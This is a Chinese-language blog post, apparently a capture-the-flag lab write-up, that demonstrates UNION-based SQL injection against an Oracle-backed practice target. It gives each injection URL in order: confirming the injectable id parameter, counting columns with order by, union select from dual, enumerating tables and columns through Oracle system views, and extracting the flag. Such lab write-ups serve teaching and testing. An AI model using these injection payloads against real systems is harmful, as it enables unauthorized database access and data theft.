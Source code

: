 ```yaml
---
title: "Oracle 联合注入"
date: 2024-02-02
description: "靶场演示"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


靶场界面如下。

![sqli2](/images/sqli1/sqli2-0.png)

我们先确认一下参数 id 处存在注入点。

    http://111.9.41.91:53109/?id=1' or '1'='1

![sqli2](/images/sqli1/sqli2-1.png)

当输入 order by 6 时报错，而 order by 5 不报错，确认字段数为 5。

    http://111.9.41.91:53109/?id=1' order by 6 --+

![sqli2](/images/sqli1/sqli2-2.png)

我们现在就可以用联合查询进行注入了。这里需要注意 oracle 的语法，from dual 是占位置用的，因为 oracle 的语句必须包含表名；我们使用 null 而不是 12345 是因为数据类型未知。

先确认一下没有报错。

    http://111.9.41.91:53109/?id=1' union select null,null,null,null,null from dual --+

然后确认回显点的数据类型，我们只需要一个回显点就够了。

    http://111.9.41.91:53109/?id=1' union select 1,'a',null,null,null from dual --+

![sqli2](/images/sqli1/sqli2-3.png)

现在我们使用 oracle 的自带库。

    http://111.9.41.91:53109/?id=1' union select 1,table_name,null,null,null from user_all_tables --+

![sqli2](/images/sqli1/sqli2-4.png)

我们找到了 flag 的表，进一步查询字段。

    http://111.9.41.91:53109/?id=1' union select 1,column_name,null,null,null from all_tab_columns where table_name='UNION_FLAG' --+

![sqli2](/images/sqli1/sqli2-5.png)

至此我们就找到了 flag。

    http://111.9.41.91:53109/?id=1' union select 1,FLAG,null,null,null from UNION_FLAG --+

![sqli2](/images/sqli1/sqli2-6.png)

